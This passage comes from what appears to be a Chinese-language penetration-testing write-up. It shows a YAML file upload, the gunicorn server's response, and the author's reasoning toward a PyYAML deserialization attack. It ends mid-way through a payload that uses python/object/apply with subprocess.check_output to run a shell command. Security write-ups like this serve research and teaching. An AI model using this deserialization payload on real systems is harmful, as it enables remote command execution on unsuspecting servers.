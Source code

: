 # A list of global configuration variables
# # Uncomment lines as needed to edit default settings.
# # Note this only works for settings with default values. Some commands like --rerun <module>
# # or --force-ccd n will have to be set in the command line (if you need to)
#
# # This line is really important to set up properly
# project_path: '/home/user'
#
# # The rest of the settings will default to the values set unless you uncomment and change them # #resize_to: 2048 'test'
-----------------------------200783363553063815533894329
Content-Disposition: form-data; name="upload"
-----------------------------200783363553063815533894329--
HTTP/1.1 200 OK
Server: gunicorn/19.7.1
Date: Sun, 03 Sep 2017 02:50:16 GMT
Connection: close
Content-Type: text/html; charset=utf-8
Content-Length: 2213
Set-Cookie: session=; Expires=Thu, 01-Jan-1970 00:00:00 GMT; Max-Age=0; Path=/

<div class="container flashed-messages">
   <div>
    <div>
     <div class="alert alert-info" role="alert">
       test.yaml is valid YAML
     </div>
    </div>
   </div>
  </div>
  
   </div>
</div>
  <div class="container main">
   <div>
    <div class="col-md-12 main">
<code></code>
</pre>
<p nodeIndex="74"><span nodeIndex="221">正如上面这段代码所示，文档已被我成功上传，但提示信息只告诉了我们上传的文件是否为一个有效的YAML文档。这就让我有些无所适从了...但是在对响应信息进行了进一步的分析之后，我注意到了后台服务器正在运行的是<strong nodeIndex="222"><span nodeIndex="223">gunicorn/19.7.1</span></strong>。</span></p>
<p nodeIndex="75"><span nodeIndex="224">在网上快速搜索了一些关于gunicorn的内容之后，我发现它是一个Python Web服务器，而这也就意味着负责处理YAML文档的解析器应该是一个Python库。因此，我又上网搜索了一些关于Python YAML漏洞的内容，并且还发现了一些介绍PyYAML反序列化漏洞的技术文章。在对这些文章进行了归纳总结之后，我得到了如下所示的专门针对PyYAML反序列化漏洞的漏洞利用代码：</span></p>
<pre class="brush:python;toolbar:false" nodeIndex="76">
!!map {
? !!str "goodbye"
: !!python/object/apply:subprocess.check_output [
!!str "ls",
],